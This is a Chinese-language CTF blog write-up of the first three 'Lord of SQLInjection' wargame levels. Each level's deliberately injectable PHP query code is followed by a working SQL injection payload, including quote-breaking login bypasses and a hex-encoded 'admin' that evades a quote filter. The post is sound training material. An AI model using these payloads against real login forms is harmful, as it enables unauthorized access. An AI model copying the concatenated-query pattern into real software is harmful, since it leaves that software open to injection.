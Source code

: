 ```yaml
---
layout:     post
title:      WriteUp4
subtitle:   SQL注入
date:       2022-10-21
author:     Distiny
header-img: img/post-bg-mma-5.jpg
catalog: true
tags:
    - CTF
    - web安全
---
```


### 靶场：[LORD OF SQLINJECTION](https://los.rubiya.kr/)

靶场名字很中二，全部是sql注入的题目，难度据说依次提升，今天做了前四道题

#### 第一题 Gremlin

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

> 字符型注入

```
?id=' or '1'='1&pw=' or '1'='1
```

构造结果为：

**select id from prob_gremlin where id='' or '1'='1' and pw='' or '1'='1'**

#### 第二题 Cobolt

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

```
?pw=1') or (id = 'admin
```

构造结果为：

**select id from prob_cobolt where id='' and pw=md5('1') or (id = 'admin')**

#### 第三题 Goblin

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

> 数值型注入

> 随便写no = 1发现出现Hello guest，看来guest的no是1。
>
> 那试试2，`?no=0 or no = 2`
>
> 23333,果然admin的no是2，直接出结果了。。。

实际上肯定是要`?no = 0 or id = 'admin' `

但是这道题里面把`'`过滤了，所以上述语句无法执行

改成`/?no=0 or id=0x61646d696e`就可以了，0x61646d696e是admin的16进制形式。

因为MySQL支持16进制值，且其默认类型就是字符串，而且它在数字上下文中，还可以当作整数，例如：

```sql
mysql> SELECT 0x61;
+------+
| 0x61 |
+------+
| a    |
+------+

mysql> SELECT 0x61+1;
+--------+
| 0x61+1 |
+--------+
|     98 |
+--------+

mysql> SELECT 0x61646d696e+1;
+----------------+
| 0x61646d696e+1 |
+----------------+
|   418296719727 |
+----------------+
1 row in set (0.00 sec)
```

如果要把其当作其他类型，可以使用CAST()函数

```sql
mysql> SELECT CAST(0x61 AS UNSIGNED);
+------------------------+
| CAST(0x61 AS UNSIGNED) |
+------------------------+
|                     97 |
+------------------------+
```

在MySQL中还可以用HEX()函数将一个字符串或数字转换为十六进制格式的字符串：

```sql
mysql> SELECT HEX('SQL');
+------------+
| HEX('SQL') |
+------------+
| 53514C     |
+------------+
1 row in set (0.00 sec)

mysql> SELECT 0x53514C;
+----------+
| 0x53514C |
+----------+
| SQL      |
+----------+
1 row in set (0.00 sec)
```

